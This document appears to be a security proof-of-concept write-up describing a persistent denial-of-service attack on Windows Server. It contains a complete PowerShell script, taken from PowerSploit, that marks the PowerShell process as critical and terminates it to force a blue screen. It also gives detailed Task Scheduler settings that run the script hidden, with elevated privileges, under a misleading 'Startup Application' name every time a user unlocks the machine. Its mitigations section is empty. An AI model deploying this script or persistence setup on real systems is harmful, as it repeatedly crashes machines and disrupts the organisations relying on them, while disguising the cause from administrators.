 # POC 3 - Denial of Service Attack on Boot Up of Device

## Description

Denial of Service (DoS) attack is an attack that affects the availability of services towards the users. While availability can be restored, if a prolonged attack occurs, systems may be damaged. 

The Windows Server hosts numerous features and services that organizations can leverage. This includes, but is not limited to, Active Directory, File and Storage Services, web services, and more. 

When a DoS attack is launched on these services, organisations are widely affected as these services play an important role and service towards the organisation.  

This attack aims to outline the threats posed to the organisation from a Denial of Service attack making use of a PowerShell script extracted from the PowerSploit module. 

## Steps to Carry Out Exploitation

1. Create a script with the following content and save it in a file locations where it will seem normal


File Location:

```
C:\Users\$username\Documents\WindowsPowerShell\Scripts\InstalledScriptInfos
```

File Name:

```
Startup.ps1
```

Script Content: 

```ps1
function Set-CriticalProcess
{
    [Diagnostics.CodeAnalysis.SuppressMessageAttribute('PSUseDeclaredVarsMoreThanAssignments', '')]
    [CmdletBinding(SupportsShouldProcess = $True, ConfirmImpact = 'High')]
    Param (
        [Switch]
        $Force,

        [Switch]
        $ExitImmediately
    )

    if (-not ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator))
    {
        throw 'You must run Set-CriticalProcess from an elevated PowerShell prompt.'
    }

    $Response = $True

    if (!$Force)
    {
        $Response = $psCmdlet.ShouldContinue('Have you saved all your work?', 'The machine will blue screen when you exit PowerShell.')
    }

    if (!$Response)
    {
        return
    }

    $DynAssembly = New-Object System.Reflection.AssemblyName('BlueScreen')
    $AssemblyBuilder = [AppDomain]::CurrentDomain.DefineDynamicAssembly($DynAssembly, [Reflection.Emit.AssemblyBuilderAccess]::Run)
    $ModuleBuilder = $AssemblyBuilder.DefineDynamicModule('BlueScreen', $False)

    # Define [ntdll]::NtQuerySystemInformation method
    $TypeBuilder = $ModuleBuilder.DefineType('BlueScreen.Win32.ntdll', 'Public, Class')
    $PInvokeMethod = $TypeBuilder.DefinePInvokeMethod('NtSetInformationProcess',
    'ntdll.dll',
    ([Reflection.MethodAttributes] 'Public, Static'),
    [Reflection.CallingConventions]::Standard,
    [Int32],
    [Type[]] @([IntPtr], [UInt32], [IntPtr].MakeByRefType(), [UInt32]),
    [Runtime.InteropServices.CallingConvention]::Winapi,
    [Runtime.InteropServices.CharSet]::Auto)

    $ntdll = $TypeBuilder.CreateType()

    $ProcHandle = [Diagnostics.Process]::GetCurrentProcess().Handle
    $ReturnPtr = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(4)

    $ProcessBreakOnTermination = 29
    $SizeUInt32 = 4

    try
    {
        $null = $ntdll::NtSetInformationProcess($ProcHandle, $ProcessBreakOnTermination, [Ref] $ReturnPtr, $SizeUInt32)
    }
    catch
    {
        return
    }

    Write-Verbose 'PowerShell is now marked as a critical process and will blue screen the machine upon exiting the process.'

    if ($ExitImmediately)
    {
        Stop-Process -Id $PID
    }
}

Set-CriticalProcess -Force -Verbose -ExitImmediately
```

2. Schedule a task using `Task Scheduler` to run this script on startup of device

**General Tab**
|Options|Value|
|--|--|
|Name|Startup Application|
|Description|A script to Startup application dependencies|
|Use the user account|Default User Selected|
|When to Run|Run only when user is logged on|
|Run with highest privileges|Checked|
|Configure for|Windows Server 2022|
|Hidden|Checked|

![Task Scheduler General Options](/images/POC_3/Exploitation/POC3_Task_Scheduler_General.png)

**New Trigger Tab**
|Options|Value|
|--|--|
|Begin the task|On workstation unlock of any user|
|Enabled|Checked|

![Task Scheduler New Trigger Options](/images/POC_3/Exploitation/POC3_Task_Scheduler_New_Trigger.png)

**New Action Tab**
|Options|Value|
|--|--|
|Action|Start a program|
|Program/script|C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe|
|Add arguments (optional)|-WindowStyle hidden -File "C:\Users\CARR0T\Documents\WindowsPowerShell\Scripts\InstalledScriptInfos\Startup.ps1"|

![Task Scheduler New Actions Options](/images/POC_3/Exploitation/POC3_Task_Scheduler_New_Actions.png)

**Conditions Tab**
|Options|Value|
|--|--|
|Start the task only if the computer is on AC power|Unchecked|

![Task Scheduler Condition Options](/images/POC_3/Exploitation/POC3_Task_Scheduler_Conditions.png)

**Settings Tab**
|Options|Value|
|--|--|
|Allow Task to be run on demand|Checked|
|Run tasks as soon as possible after a scheduled start is missed|Checked|
|If the task fails, restart every|1 minute|
|Attempt to restart up to|3 times|
|Stop the task if it runs longer than|3 days|
|If the running task does not end when requested, force it to stop|Checked|
|If the task is not scheduled to run again, delete it after|Unchecked|
|If the task is already running, than the following rules applies|Do not start a new instance|

![Task Scheduler Settings Options](/images/POC_3/Exploitation/POC3_Task_Scheduler_Settings.png)

3. Run the script

4. Notice that the device keeps getting a Blue Screen of Death (BSOD) when the user logs in

![Blue Screen of Death](POC3_BSOD.png)

## Possible Mitigations



## References

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)  
[Running PowerShell Script without displaying Window](https://stackoverflow.com/questions/1802127/how-to-run-a-powershell-script-without-displaying-a-window)  

